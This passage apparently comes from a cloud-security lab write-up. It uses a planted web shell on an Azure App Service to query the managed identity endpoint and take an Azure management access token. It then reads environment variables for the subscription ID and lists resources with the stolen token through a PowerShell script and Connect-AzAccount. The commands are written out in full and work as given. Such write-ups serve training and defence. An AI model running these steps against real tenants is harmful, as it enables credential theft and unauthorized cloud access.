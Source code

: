 Request the token
```
└─$ curl --silent 'https://megabigtech-hr-portal.azurewebsites.net/portal/shell.php?cmd=curl%20-s%20-H%20%22X-Identity-Header%3A%20%24IDENTITY_HEADER%22%20%22%24IDENTITY_ENDPOINT%3Fapi-version%3D2019-08-01%26resource%3Dhttps%3A%2F%2Fmanagement.azure.com%2F%22'
{"access_token":"<REDACTED>","expires_on":"1758530571","resource":"https://management.azure.com/","token_type":"Bearer","client_id":"6beb3ab0-6e28-4a92-8e5a-ce0d5abf3a8c"}
```

![](passwordless-credentials-for-access-and-escalation-3.png)

We also need subscription ID, which can be retrieved with `Get-AzRoleAssignment`, but in case we have no access, we can get it from `WEBSITE_OWNER_NAME` variable.
```
└─$ curl --silent 'https://megabigtech-hr-portal.azurewebsites.net/portal/shell.php?cmd=env'   
WEBSITE_DEFAULT_HOSTNAME=megabigtech-hr-portal.azurewebsites.net
<SNIP>
WEBSITE_OWNER_NAME=ceff06cb-e29d-4486-a3ae-eaaec5689f94+mbt-rg-12-EastUS2webspace-Linux
<SNIP>
```

Now we can craft a script  to identify the resources we can access.
```
$subscriptionId = "ceff06cb-e29d-4486-a3ae-eaaec5689f94"

# Azure Management API URL to list resources
$url = "https://management.azure.com/subscriptions/$subscriptionId/resources?api-version=2021-04-01"

# Headers with the access token for authorization
$headers = @{
    Authorization = "Bearer $token"
    "Content-Type" = "application/json"
}

try {
    $response = Invoke-RestMethod -Uri $url -Method Get -Headers $headers
    $resources = $response.value
    # Output the resources
    $resources | ForEach-Object {
        Write-Output "Resource Name: $($_.name), Type: $($_.type), Location: $($_.location)"
    }
} catch {
    Write-Error "Failed to retrieve resources: $_"
}
```
Or use Powershel Az module with token we acquired
```
└─PS> Connect-AzAccount -AccessToken $token -AccountId b56cb3c4-c115-4e3a-9e35-5614a2a32c3c       

Subscription name           Tenant
-----------------           ------
Microsoft Azure Sponsorship 2590ccef-687d-493b-ae8d-441cbab63a72

```
```
└─PS> Get-AzResource                            

Name              : megabigtechinternal
ResourceGroupName : mbt-rg-12
ResourceType      : Microsoft.Storage/storageAccounts
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-12/providers/Microsoft.Storage/storageAccounts/megabigtechinternal
Tags              : 

```